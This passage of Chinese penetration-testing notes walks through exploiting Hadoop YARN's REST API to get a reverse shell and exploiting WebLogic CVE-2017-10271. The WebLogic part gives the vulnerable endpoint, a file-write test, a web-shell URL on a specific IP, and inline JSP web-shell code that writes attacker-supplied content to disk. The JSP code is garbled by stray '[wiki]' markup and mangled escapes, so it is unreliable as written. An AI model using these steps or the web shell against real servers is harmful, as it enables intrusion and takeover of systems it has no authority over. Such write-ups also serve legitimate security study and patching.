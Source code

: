 通过REST API提交任务执行

/ws/v1/cluster/apps/new-application

![image-20200731162525095](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200731162525095.png)

exp代码

![image-20200731162805055](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200731162805055.png)

![image-20200731163409265](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200731163409265.png)



外网机器监听 反弹shell

![image-20200731163153366](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200731163153366.png)





### CVE-2017-10271 WebLogic 远程代码执行漏洞

##### 漏洞简介及影响范围

WebLogic WLS组件中存在CVE-2017-10271远程代码执行漏洞，可以构造请求对运行WebLogic中间件的主机进行攻击，近期发现此漏洞的利用方式为传播挖矿程序。

受影响WebLogic版本：10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0。

##### 利用过程

漏洞判断：

https://www.cnblogs.com/xiaozi/p/8205107.html

访问 http://ip:7001/wls-wsat/CoordinatorPortType11，(默认7001端口)存在下图则可能存在漏洞

![image-20200903133217542](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903133217542.png)

构造POST包进行测试，写入test.txt

![image-20200903133707153](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903133707153.png)

wls-wsat路径  /root/Oracle/Middleware//user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat/

查看文件

![image-20200903133717489](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903133717489.png)

写shell   访问连接 http://119.45.55.187:7001/wls-wsat/test.jsp?i=ls  无回显

![image-20200903145954388](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903145954388.png)

更换shell

```
<%
if(req[wiki]UE[/wiki]st.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("&amp;#92;&amp;#92;")+request.getParameter("f"))).write(request.getParameter("t").getBytes());
%>
```
